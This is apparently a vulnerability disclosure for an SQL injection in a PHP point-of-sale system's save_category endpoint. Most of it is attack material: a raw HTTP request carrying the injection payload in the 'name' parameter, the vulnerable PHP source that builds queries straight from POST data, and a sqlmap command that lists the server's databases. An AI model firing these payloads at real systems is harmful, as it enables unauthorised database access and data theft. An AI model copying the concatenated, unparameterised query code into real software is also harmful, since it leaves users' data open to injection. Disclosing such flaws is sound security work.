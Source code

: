 Download sourcecode from https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Deploy the system

The sql injection url: http://172.31.171.96/kruxton/ajax.php?action=save_category Vulnerability trigger parameter: name(post parameter)

The http message is 

```
POST /kruxton/ajax.php?action=save_category HTTP/1.1
Host: 172.31.171.96
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=trdjs8jl8md348msi4p8aq5tu9
Connection: close

name=1'or 1=1%2
```

sourcecode:

```php
	function save_category(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k => $v){
			if(!in_array($k, array('id')) && !is_numeric($k)){
				if(empty($data)){
					$data .= " $k='$v' ";
				}else{
					$data .= ", $k='$v' ";
				}
			}
		}
		$check = $this->db->query("SELECT * FROM categories where name ='$name' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;
		if($check > 0){
			return 2;
			exit;
		}
		if(empty($id)){
			$save = $this->db->query("INSERT INTO categories set $data");
		}else{
			$save = $this->db->query("UPDATE categories set $data where id = $id");
		}

		if($save)
			return 1;
	}
```

![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311161649893.png)

sqlmap command: 

```
sqlmap -u http://172.31.171.96/kruxton/ajax.php?action=save_category --data "name=1" --batch --dbs
```

inject result: 

![](https://github.com/paiqian/kruxton/blob/main/static/image-20230311164750182.png)

![image-20230311164806021](https://github.com/paiqian/kruxton/blob/main/static/image-20230311164806021.png)
